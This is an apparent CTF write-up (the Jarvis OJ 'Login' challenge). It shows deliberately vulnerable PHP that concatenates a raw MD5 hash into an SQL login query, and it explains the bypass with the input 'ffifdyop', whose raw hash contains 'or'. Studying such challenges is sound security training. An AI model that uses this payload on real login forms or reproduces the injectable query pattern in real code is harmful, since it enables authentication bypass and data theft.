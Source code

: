 # Challenge 
```php
<?php 
    
error_reporting(0);

$link = mysql_connect('localhost', 'root', '');
if (!$link) { 
    die('Could not connect to MySQL: ' . mysql_error()); 
} 

// 选择数据库
$db = mysql_select_db("test", $link);
if(!$db)
{
    echo 'select db error';
    exit();
}

// 执行sql
$password = $_GET['pwd'];
$sql = "SELECT * FROM admin WHERE pass = '".md5($password,true)."'";
var_dump($sql);
$result=mysql_query($sql) or die('<pre>' . mysql_error() . '</pre>' );

$row1 = mysql_fetch_row($result);
var_dump($row1);

mysql_close($link);

?>
```

# Solution
sql语句为`"SELECT * FROM admin WHERE pass = '".md5($password,true)."'"`

若md5后的hex转换成字符串后，如果包含`'or'<trash>`这样的字符串，`<trash>`的意思是垃圾值/可忽略

则拼接后构成的语句为：
```
SELECT * FROM admin WHERE pass = ''or'<trash>' 
```

而字符串ffifdyop，md5后，276f722736c95d99e921722cf9ed621c，再转成字符串：`'or'6<trash>`，

拼接后的语句为：
```
SELECT * FROM admin WHERE pass = ''or'6<trash>'
```
payload:
```
?pwd=ffifdyop
```
# Refference 
+ [SQL injection with raw MD5 hashes](https://joychou.org/web/SQL-injection-with-raw-MD5-hashes.html)
+ [jarvisoj : Login](http://web.jarvisoj.com:32772/)
+ [chybeta : Login](https://chybeta.github.io/2017/07/05/jarvisoj-web-writeup/#Login)